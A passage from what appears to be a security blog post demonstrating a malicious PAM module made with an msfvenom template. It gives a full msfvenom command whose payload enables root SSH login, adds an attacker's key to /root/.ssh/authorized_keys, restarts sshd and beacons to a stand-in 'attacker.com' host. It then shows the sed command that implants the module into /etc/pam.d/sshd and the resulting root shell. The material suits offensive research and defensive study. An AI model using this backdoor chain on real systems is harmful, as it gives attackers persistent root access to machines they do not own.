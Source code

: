 We now have a working `msfvenom` template that can be used to create malicious
PAM modules. It's easily edited to add the methods for other PAM module types,
and integration with `msfvenom` makes it easy to generate modules with any
payload your heart desires.

## Demonstration

With our malicious PAM module in hand, we can now simulate the attack. I won't
be dropping 0days in this post, so for now we'll just assume the MITM has been
successful and the malicious PAM module has been fetched and installed in 
`/etc/pam.d/sshd`. The payload will aim to give the attacker root-access to the
machine on-demand, while also beaconing out to a "C2" server to inform
the attacker of the successful attack.

Remember a few sections back when I said that it was important that I do
this safely because I was running the implant live on my main development
machine? I wasn't kidding:

![Discord - "i am an idiot help"](/images/pam/oops.png)

After recovering the default PAM, and finding the right `sed` command to
_insert_ a line instead of replacing the whole file, I got the implanted
module installed:

```sh
micrictor@dev:~/msfvenom_pam$ msfvenom -x elf_pam_so_template.bin -f elf --payload linux/x64/exec CMD='echo PermitRootLogin yes >> /etc/ssh/sshd_config; mkdir /root/.ssh; echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFCyLXSv
bTWPmfzr6hAotZYj+5KIDeGANSGkKz5Ru9xo >> /root/.ssh/authorized_keys; service sshd restart; ping attacker.com' > ./implant.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 261 bytes
Final size of elf file: 677 bytes
micrictor@dev:~/msfvenom_pam$ sudo sed -i "1i auth required $(pwd)/implant.so" /etc/pam.d/sshd
```

After attempting SSH from another terminal (it doesn't need to succeed):

```sh
micrictor@dev:~/msfvenom_pam$ sudo cat /root/.ssh/authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFCyLXSvbTWPmfzr6hAotZYj+5KIDeGANSGkKz5Ru9xo
micrictor@dev:~/msfvenom_pam$ ssh root@127.0.0.1
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

...

root@dev:~# id
uid=0(root) gid=0(root) groups=0(root)
```
